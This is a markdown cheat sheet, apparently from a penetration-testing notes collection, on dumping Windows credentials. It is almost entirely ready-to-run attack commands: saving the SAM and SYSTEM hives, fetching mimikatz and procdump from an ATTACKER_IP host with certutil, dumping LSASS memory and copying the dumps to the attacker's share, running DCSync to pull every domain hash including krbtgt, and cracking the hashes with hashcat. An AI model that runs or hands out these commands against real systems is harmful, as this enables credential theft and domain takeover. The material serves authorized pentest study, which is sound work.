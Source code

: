 # Windows Credential Dumping

**Prerequisites:** Local admin or SYSTEM access from privilege escalation

---

## Local Credentials (SAM/SYSTEM)

### From Remote (Kali)

```bash
# Using NetExec
netexec smb TARGET -u USERNAME -p 'PASSWORD' --sam

# Using secretsdump
impacket-secretsdump DOMAIN/USERNAME:PASSWORD@TARGET
```

### From Local Shell (SYSTEM Required)

```powershell
# Save registry hives
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save

# Transfer to Kali
copy sam.save \\\\ATTACKER_IP\\share\\sam.save
copy system.save \\\\ATTACKER_IP\\share\\system.save
```

```bash
# On Kali: Extract hashes
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

---

## LSASS Memory Dumping

### Using Mimikatz

```powershell
# Download
certutil -urlcache -f http://ATTACKER_IP/mimikatz.exe mimikatz.exe

# Run
.\mimikatz.exe

# Commands:
privilege::debug
sekurlsa::logonpasswords
exit
```

### Using ProcDump (Stealthier)

```powershell
# Download
certutil -urlcache -f http://ATTACKER_IP/procdump.exe procdump.exe

# Dump LSASS
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Transfer to Kali
copy lsass.dmp \\\\ATTACKER_IP\\share\\lsass.dmp
```

```bash
# On Kali: Parse dump
pypykatz lsa minidump lsass.dmp
```

---

## Domain Credentials (DCSync)

### Requirements

- Domain Admin privileges, OR
- Account with Replicating Directory Changes rights

### Execute DCSync

```bash
# Dump all domain hashes
impacket-secretsdump 'DOMAIN/USERNAME:PASSWORD@DC_IP' -just-dc

# Save to file
impacket-secretsdump 'DOMAIN/USERNAME:PASSWORD@DC_IP' -just-dc -outputfile domain_hashes

# Dump specific users
impacket-secretsdump 'DOMAIN/USERNAME:PASSWORD@DC_IP' -just-dc-user Administrator
impacket-secretsdump 'DOMAIN/USERNAME:PASSWORD@DC_IP' -just-dc-user krbtgt
```

---

## What to Do With Dumped Credentials

**Crack what you can:**
```bash
hashcat -m 1000 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Pass-the-hash the rest:**
```bash
# See: 03-POST-EXPLOITATION/lateral-movement.md
```
